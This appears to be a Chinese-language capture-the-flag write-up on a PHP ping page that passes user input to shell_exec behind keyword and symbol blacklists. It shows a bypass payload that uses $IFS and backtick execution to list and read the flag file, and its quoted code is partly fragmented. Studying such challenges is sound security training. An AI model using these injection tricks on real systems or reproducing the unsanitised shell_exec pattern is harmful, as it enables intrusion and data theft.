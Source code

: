 

<img src="https://i-blog.csdnimg.cn/blog_migrate/a509bb72e1fd561bd3e5b56dd5b0f8b9.png" alt="" style="max-height:524px; box-sizing:content-box;" />


成功 说明过滤了空格

```swift
/?ip=
 
PING 127.0.0.1 (127.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|
\{|\}/", $ip, $match);不能出现这些符号
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){ 不能出现//
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){ 不能出现/bush/
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){ 不能出现有关flag的字
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}
 
?>
```

我们开始构造

#### 1.内联执行

```bash
127.0.0.1;cat$IFS$9`ls`
 
``的作用就是将ls执行完返回 
 
相当于
127.0.0.1;cat$IFS$9flag.php,index.php
 
会返回命令执行完的
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/76f1234cec7cea34cf2392448cf93d57.png" alt="" style="max-height:641px; box-sizing:content-box;" />


执行成功源代码发现flag


